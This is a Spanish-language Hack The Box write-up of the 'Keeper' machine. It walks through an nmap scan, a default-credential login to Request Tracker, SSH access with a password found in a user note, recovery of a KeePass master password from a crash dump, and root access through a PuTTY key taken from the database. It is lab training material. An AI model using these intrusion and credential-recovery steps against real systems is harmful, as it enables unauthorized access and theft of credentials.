



Keeper es una máquina Easy del desafío Hack The Box. La enumeración comienza con un escaneo Nmap que revela servicios SSH y HTTP. El servicio HTTP ejecuta Request Tracker 4.4.4, conocido por una vulnerabilidad de divulgación de información a través de la enumeración de usuarios. Se encuentran credenciales por defecto para ‘root’. Al acceder al panel de administración se revela la contraseña de un usuario, «Welcome2023!».

El uso de SSH con las credenciales encontradas permite el acceso a un sistema Ubuntu. Se descubre una base de datos Keepass y un volcado de programa, lo que permite recuperar la contraseña maestra «rødgrød med fløde» (postre danés), que da acceso a la base de datos Keepass. Se encuentra un archivo Putty PPK y se convierte en una clave RSA, lo que permite el acceso SSH como «root». Esta progresión da como resultado la finalización con éxito del desafío.

# Initial Recon

Verificamos nuestra conexión con la máquina, en caso de que no responda, Compruebe su archivo VPN:

```bash
❯ ping -c 1 10.10.11.227                                            
PING 10.10.11.227 (10.10.11.227) 56(84) bytes of data.
64 bytes from 10.10.11.227: icmp_seq=1 ttl=63 time=140 ms

--- 10.10.11.227 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 140.045/140.045/140.045/0.000 ms
```

comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap -sS --open -p- --min-rate 5000 -n -Pn -v 10.10.11.227 -oG nmapScan

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Realicemos un escaneo más profundo:

```bash
nmap -sVC -p22,80 10.10.11.227 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.9p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

Por ahora no intentamos nada a través de ssh ya que no tenemos credenciales válidas, Así que vamos a ver el sitio web.

# Web



## Default Credentials In Tracker

Al navegar a esta página nos encontramos con la siguiente página de inicio de sesión. Podemos ver que esta usando Request tracker Cuando busque en internet pude encontrar que las credenciales por defecto para la cuenta root es password Ingresando esta contraseña nos dio acceso a la aplicación web.



Al mirar a través de la aplicación podemos encontrar dos páginas interesantes. La primera es la página de tickets abiertos recientemente, que revela un problema que uno de los usuarios está teniendo. Dicen que tienen un crash dump en su directorio home para ayudar a los administradores a depurar sus problemas con keepass. Esta es información muy interesante que nos da un objetivo a seguir una vez que tengamos acceso al sistema.



En segundo lugar al revisar el panel de usuarios de la aplicación pudimos ver que el mismo usuario que notamos antes en el ticket tenía una nota en su perfil. Esta nota mencionaba su contraseña de inicio por defecto. ¡Usando esta contraseña nos dio acceso a la máquina con ssh usando la contraseña Welcome2023!

# SSH Credentials

```bash
ssh lnorgaard@keeper.htb
```

# Privilege Escalation

La carpeta de inicio contiene un archivo ZIP RT30000.zip. Este debe ser el archivo correspondiente al ticket que hemos visto antes. Transfiéralo a la máquina atacante y descomprímalo.

```bash
> unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
```

Obtenemos el crash dump de KeePass y un archivo de base de datos de KeePass.
Extracting the KeePass master password

Tal vez sea posible extraer la contraseña maestra del archivo de volcado. He intentado utilizar este script de Python para la tarea: Keepass Dump MasterKey

```bash
> python3 poc.py -d /opt/ctf/htb/keeper/KeePassDumpFull.dmp
2023-08-12 21:35:47,517 [.] [main] Opened /opt/ctf/htb/keeper/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
```

Hay algunos problemas con los caracteres especiales. Una búsqueda rápida en Google de dgrd med flde revela el nombre del plato danés: Rødgrød med fløde.

Utilizaré la utilidad kpcli para interactuar con el archivo de base de datos KeePass que hemos saqueado.

```bash
> kpcli

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx
Provide the master password: ************************* #Rødgrød med fløde
Error opening file: Couldn't load the file passcodes.kdbx

Error(s) from File::KeePass:
The database key appears invalid or else the database is corrupt.

kpcli:/> open passcodes.kdbx
Provide the master password: ************************* #rødgrød med fløde
kpcli:/> ls
=== Groups ===
passcodes/
```

¡Éxito! La contraseña maestra de la base de datos KeePass es rødgrød med fløde. Vamos a buscar algunas credenciales.

## SSH Private Key for root

```bash
kpcli:/> ls *
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/> ls */*
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

```bash
kpcli:/> cd /passcodes/Network
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <REDACTED>
  URL:
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <REDACTED>
```

¡Parece que tenemos una clave privada SSH raíz para PuTTY! Convirtámosla al formato aceptable para OpenSSH con puttygen:

```bash
puttygen key.putty -O private-openssh -o id_rsa
```

Y utiliza la clave para SSH:

```bash
> ssh root@keeper.htb -i id_rsa
```

```bash
> id
uid=0(root) gid=0(root) groups=0(root)
```